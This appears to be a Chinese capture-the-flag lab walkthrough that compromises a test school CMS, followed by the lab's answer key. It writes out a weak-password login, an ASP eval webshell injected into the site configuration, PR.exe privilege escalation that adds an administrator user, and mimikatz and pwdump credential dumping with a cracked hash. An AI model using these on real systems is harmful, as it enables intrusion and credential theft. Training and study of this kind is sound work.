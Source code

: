 
### 1、御剑扫描后台

扫出后台地址 `www.test.ichunqiu`

![](images/1.jpg)

### 2、弱口令进后台

尝试弱密码密码`admin888`,登录成功(界面和`动易SmartSchool`一样,参考默认密码admin888)

也可以扫注入点.试出弱密码就不浪费时间了

![](images/2.jpg)

### 3、修改配置 getshell

参考南方数据cms getshell,`系统设置管理`-`网站信息配置`修改网站配置信息

```asp
"%><%eval request(chr(97))%><%'
```

![](images/3.jpg)

菜刀连接(密码a):

![](images/4.jpg)


### 4、PR.exe 提权 && 新建管理员用户

默认是iis用户,对 `c:\RECYCLER`(回收站) 有读写权限

![](images/5.jpg)

菜刀上传,`cmd.exe`,`3389.exe`,`PR.exe`到`c:\RECYCLER`

cmd.exe --> 右键 --> 打开虚拟终端 --> `PR.exe + 命令`

![](images/6.jpg)

```
PR.exe "net user wooyun wooyun.org /add"           # 新建用户`wooyun`,密码`wooyun.org`
PR.exe "net localgroup administrators wooyun /add" # 将`wooyun`用户加入到管理员组
PR.exe "3389.exe"                                  # 开远程桌面服务
PR.exe "tasklist /svc"                             # 检查远程桌面服务是否开启
```

![](images/7.jpg)


### 5、抓取管理员密码

```
远程桌面连接 --> 选项 --> 本地资源 --> 选择驱动器 (方便复制粘贴文件)
```
![](images/9.jpg)
![](images/8.jpg)

上传 `mimikatz Win32`(tools里面带的`mimikatz`版本为1.0,么有2.0版本的 MMP)

`mimikatz.exe 1.0`抓取密码命令
```
//开始运行神器
mimikatz.exe
//提升权限
privilege::debug
//注入dll
inject::process lsass.exe sekurlsa.dll
//抓取密码
@getLogonPasswords
```
扩展: `mimikatz.exe 2.0` 抓取密码:
```
privilege::debug
sekurlsa::logonpasswords full

菜刀运行:
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
```

似乎是失败了,提示内存不足,忘了截图

在`tools\提权工具\hash`找到`Pwdump7`,上传传到目标服务器,双击运行`pwdump7.bat`

成功提取出`Administrator`的hash:
```
62C4700EBB05958F3832C92FC614B7D1:4D478675344541AACCF6CF33E1DD9D85
```

![](images/10.jpg)

使用 `SAMInside.exe` 没有成功破解出密码.

`Google`找到一家在线破解`NTHASH`的网站[www.objectif-securite.ch](https://www.objectif-securite.ch/en/ophcrack.php)

![](images/11.jpg)

破解出密码:`cu9e2cgw`


<h4 style="color: red;"> 答案是:</h4>
```
wvs是什么工具: 漏洞扫描工具
管理员的密码是什么: admin888
通过什么方式获得的webshell: 写配置文件
获取目标服务器密码: cu9e2cgw
```

![](images/12.jpg)

### 吐槽

<h4 style="color: red;"> MMP,网速炒鸡慢,卡的一bi,想打人,Orz </h4>